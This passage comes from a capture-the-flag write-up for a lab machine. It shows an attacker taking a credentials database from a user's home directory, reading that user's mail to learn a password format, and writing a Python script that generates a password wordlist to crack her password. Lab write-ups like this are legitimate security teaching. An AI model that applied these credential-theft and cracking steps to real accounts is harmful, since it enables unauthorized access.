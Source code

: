 ### User flag

![](Pasted%20image%2020250209141413.png)

## Privilege Escalation

Susan has `sudo` privileges, but I don't know her password:

![](Pasted%20image%2020250209150626.png)

Inside Susan's home there is a database called `Migration/pupilpath_credentials.db`, which I downloaded to my machine. Then I opened it with an sqlite browser:

![](Pasted%20image%2020250209141749.png)

Let's try to crack those hashes:

![](Pasted%20image%2020250209141906.png)

None of them are successful. So I decided to check `/var/mail` and found that susan has an entry:

```shell
cat /var/mail/susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Okey so now I'll create a python script that generates this wordlist:

```python
import itertools
import argparse
from tqdm import tqdm

def generate_case_variations(word):
    """Generates all word combinations"""
    return set(map("".join, itertools.product(*((c.lower(), c.upper()) for c in word))))

def generate_wordlist(firstname, min_number, max_number, case_sensitive, filename="passwords.txt"):
    variations = [firstname] if not case_sensitive else generate_case_variations(firstname)

    with open(filename, "w") as f:
        total_combinations = len(variations) * (max_number - min_number + 1)
        with tqdm(total=total_combinations, desc="Generating wordlist...", unit=" passwords") as pbar:
            for variation in variations:
                reversed_variation = variation[::-1]
                for i in range(min_number, max_number + 1):
                    password = f"{variation}_{reversed_variation}_{i}"
                    f.write(password + "\n")
                    pbar.update(1)

    print(f"\nWordlist created and saved in '{filename}' with {total_combinations} passwords.")
```